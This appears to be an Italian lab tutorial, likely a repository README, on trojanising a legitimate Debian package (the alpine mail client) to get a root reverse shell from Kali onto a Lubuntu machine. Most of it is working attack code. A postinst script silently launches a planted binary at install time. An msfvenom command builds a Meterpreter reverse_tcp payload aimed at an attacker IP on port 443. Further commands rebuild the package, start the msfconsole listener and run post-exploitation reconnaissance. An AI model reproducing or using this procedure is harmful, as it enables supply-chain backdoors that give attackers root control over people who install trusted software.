


# Backdooring Debian: Compromissione di un Pacchetto .deb per Remote Access

L'obiettivo dell'operazione è la compromissione di un pacchetto .deb legittimo per ottenere una Reverse Shell con privilegi di root sulla vittima (Lubuntu) tramite un'istanza di Kali Linux.

### 1. Infiltrazione nel Pacchetto

Viene utilizzato il pacchetto alpine (email client) come vettore. Il file viene decompresso per manipolarne il contenuto, sfruttando la fiducia dell'utente verso software noto per occultare il malware.

### 2. Generazione del Payload

Il file malevolo, denominato malicious, viene generato con Metasploit (`msfvenom`):
- Payload: `linux/x86/meterpreter/reverse_tcp`
- Target: Connessione in uscita verso l'IP dell'attaccante sulla porta `443` (spesso non filtrata dai firewall).
- Funzionalità: Accesso completo al file system, keylogging ed escalation dei privilegi tramite console Meterpreter.

### 3. Persistenza tramite Script postinst

L'esecuzione del malware è garantita dal file di controllo `DEBIAN/postinst`. Questo script, nativo del formato Debian, viene eseguito automaticamente con privilegi di root durante l'installazione:
1. Privilegi: Imposta i permessi di esecuzione su `malicious`.
2. Esecuzione: Avvia il processo in background (`&`).
3. Tracciamento: Registra il PID per mantenere il controllo del processo.

### 4. Gestione della Connessione (Listener)

Sulla macchina Kali viene configurato il modulo `multi/handler`. Il sistema resta in ascolto in attesa che il comando `dpkg -i` sulla vittima attivi la catena di esecuzione, consegnando una sessione remota amministrativa immediata.

## Guida Operativa (Step-by-Step)

Segue la procedura tecnica per la manipolazione del pacchetto e la configurazione dell'exploit.

### 1. Setup Iniziale (Lubuntu)

Installiamo i tool necessari sulla macchina target:

```bash
sudo apt install synaptic
```

### 2. Download del pacchetto (Kali Linux)
Scarichiamo il pacchetto target (esempio Alpine per Ubuntu Noble):
https://launchpad.net/ubuntu/noble/amd64/alpine/2.26+dfsg-1build1



### 3. Preparazione dell'ambiente su Kali

Eseguiamo la manutenzione del sistema e installiamo lo strumento di gestione archivi

```bash
sudo apt update && sudo apt full-upgrade -y
sudo apt autoremove
sudo apt install engrampa -y
```

### 4. Estrazione e Manipolazione

Creiamo la directory di lavoro ed estraiamo il contenuto del pacchetto .deb:

```bash
mkdir mailTrojan
engrampa alpine_2.26+dfsg-1build1_amd64.deb -e mailTrojan
```

Si aprirà la seguente finestra:



All'apertura della finestra di Engrampa, cliccare su "Extract" in basso a destra.

```bash
cd mailTrojan/DEBIAN/
```

### 5. Creazione dello Script Post-Installazione

Creiamo lo script che attiverà il malware dopo l'installazione del pacchetto:

```bash
nano postinst
```

Contenuto da inserire nel file:
```bash
#!/bin/sh
set -e

# 1. Definizione variabili
TARGET="/usr/bin/malicious"
PIDFILE="/var/run/malicious.pid"

# 2. Impostazione permessi
if [ -f "$TARGET" ]; then
    echo "Impostazione permessi per $TARGET..."
    chmod 2755 "$TARGET"
else
    echo "Errore: $TARGET non trovato."
    exit 1
fi

# 3. Verifica ed Esecuzione in background
if [ -x "$TARGET" ]; then
    echo "Avvio di $TARGET in corso..."
    "$TARGET" &
    echo $! > "$PIDFILE"
    echo "Processo avviato con successo. PID: $(cat $PIDFILE)"
else
    echo "Errore: $TARGET non eseguibile."
    exit 1
fi

exit 0
```

Rendiamo lo script eseguibile:

```bash
chmod +x postinst
```

### 6. Iniezione del Payload e Re-build

Generiamo il malware con msfvenom e ricompiliamo il pacchetto Debian:

```bash
# Spostiamoci nella directory dei binari del pacchetto
cd ../usr/bin/

# Generazione del payload Meterpreter
sudo msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.188.145 LPORT=443 -b "\x00" -f elf -o malicious

# Permessi e creazione del pacchetto finale
sudo chmod +x malicious
cd ../../../
sudo dpkg-deb --build ./mailTrojan
```

### 7. Fase di Attacco

Trasferiamo il file `mailTrojan.deb` appena creato, da Kali a Lubuntu.

Su Kali Linux (Listener):
```bash
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x86/meterpreter/reverse_tcp; set LHOST 192.168.188.145; set LPORT 443; exploit"
```

Su Lubuntu (Vittima):
```bash
sudo apt --fix-broken install -y
sudo dpkg -i mailTrojan.deb
```

### 8. Post-Sfruttamento

Una volta ottenuta la sessione Meterpreter su Kali, è possibile interagire con il sistema target:
```bash
# Apri una shell di sistema
shell

# Comandi di esempio per ricognizione
uname -a
ps -aux
for dir in $(echo $PATH | tr ':' ' '); do ls $dir; done | sort | uniq
```
